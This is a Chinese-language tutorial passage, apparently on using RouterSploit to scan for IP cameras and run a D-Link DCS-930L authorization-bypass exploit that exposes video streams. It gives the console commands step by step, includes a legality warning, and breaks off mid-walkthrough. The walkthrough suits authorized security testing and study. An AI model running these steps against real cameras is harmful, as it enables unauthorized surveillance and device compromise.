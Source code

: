 由于RouterSploit主要针对路由器和嵌入式设备，但它的框架也可以用于摄像头设备，只要摄像头运行的是嵌入式系统并且有已知的漏洞。实际上，RouterSploit的模块库中包含了一些针对摄像头的漏洞利用模块。

在RouterSploit中使用摄像头相关的模块，与使用路由器模块类似。以下是一些步骤和示例：

启动RouterSploit

搜索摄像头相关的模块（例如，使用品牌名称如dlink, tp-link, netgear，或者直接搜索camera）

选择相应的模块

设置目标选项

运行漏洞利用

例如，假设我们要测试一个D-Link摄像头：

步骤1：启动RouterSploit
python3 rsf.py

步骤2：搜索D-Link摄像头模块
rsf > search dlink

步骤3：假设我们找到了一个D-Link摄像头的漏洞利用模块，例如：
rsf > use exploits/cameras/dlink/dcs_930l_authorization_bypass

步骤4：查看需要设置的选项
rsf (D-Link DCS-930L Authorization Bypass) > show options

步骤5：设置目标IP
rsf (D-Link DCS-930L Authorization Bypass) > set target 192.168.1.100

步骤6：运行
rsf (D-Link DCS-930L Authorization Bypass) > run

如果漏洞存在，我们可能会绕过授权直接访问摄像头的视频流或者管理界面。

另外，也可以使用扫描模块来发现摄像头设备，例如：
rsf > use scanners/camera_scan
rsf (Camera Scan) > set target 192.168.1.0/24
rsf (Camera Scan) > run

注意：RouterSploit的模块库中摄像头相关的模块相对路由器较少，但仍然有一些常见品牌的摄像头漏洞。

除了RouterSploit，还有其他工具专门用于摄像头漏洞扫描和利用，比如：
- IPCam漏洞利用工具：例如针对特定型号的漏洞利用脚本
- 通用漏洞扫描工具：如Nmap，可以扫描开放的端口和服务，然后针对特定服务进行漏洞检测

由于摄像头设备通常运行HTTP/RTSP等服务，我们也可以使用常规的Web漏洞扫描工具（如Burp Suite、OWASP ZAP）来测试其Web管理界面。

重要提醒：未经授权对摄像头进行测试是非法的。请确保你拥有摄像头的所有权或已获得明确的测试授权。

下面是一个具体的例子，使用RouterSploit对D-Link DCS-930L摄像头进行授权绕过漏洞的利用：

漏洞描述：D-Link DCS-930L摄像头存在一个授权绕过漏洞，允许未经认证的用户访问视频流。

步骤：

启动RouterSploit

搜索DCS-930L
